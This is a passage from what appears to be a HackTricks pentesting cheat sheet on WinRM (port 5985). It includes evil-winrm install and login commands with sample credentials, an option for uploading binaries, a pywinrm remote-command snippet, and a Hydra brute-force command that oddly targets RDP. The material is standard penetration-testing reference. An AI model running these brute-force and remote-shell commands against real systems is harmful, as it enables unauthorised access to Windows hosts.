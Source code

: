 * `port:5985 Microsoft-HTTPAPI`

## References

* [https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-3-wmi-and-winrm/](https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-3-wmi-and-winrm/)

## HackTricks स्वचालित आदेश
```
Protocol_Name: WinRM    #Protocol Abbreviation if there is one.
Port_Number:  5985     #Comma separated if there is more than one.
Protocol_Description: Windows Remote Managment        #Protocol Abbreviation Spelled out

Entry_1:
Name: Notes
Description: Notes for WinRM
Note: |
Windows Remote Management (WinRM) is a Microsoft protocol that allows remote management of Windows machines over HTTP(S) using SOAP. On the backend it's utilising WMI, so you can think of it as an HTTP based API for WMI.

sudo gem install winrm winrm-fs colorize stringio
git clone https://github.com/Hackplayers/evil-winrm.git
cd evil-winrm
ruby evil-winrm.rb -i 192.168.1.100 -u Administrator -p ‘MySuperSecr3tPass123!’

https://kalilinuxtutorials.com/evil-winrm-hacking-pentesting/

ruby evil-winrm.rb -i 10.10.10.169 -u melanie -p 'Welcome123!' -e /root/Desktop/Machines/HTB/Resolute/
^^so you can upload binary's from that directory        or -s to upload scripts (sherlock)
menu
invoke-binary `tab`

#python3
import winrm
s = winrm.Session('windows-host.example.com', auth=('john.smith', 'secret'))
print(s.run_cmd('ipconfig'))
print(s.run_ps('ipconfig'))

https://book.hacktricks.xyz/pentesting/pentesting-winrm

Entry_2:
Name: Hydra Brute Force
Description: Need User
Command: hydra -t 1 -V -f -l {Username} -P {Big_Passwordlist} rdp://{IP}
```
<figure><img src="/.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>
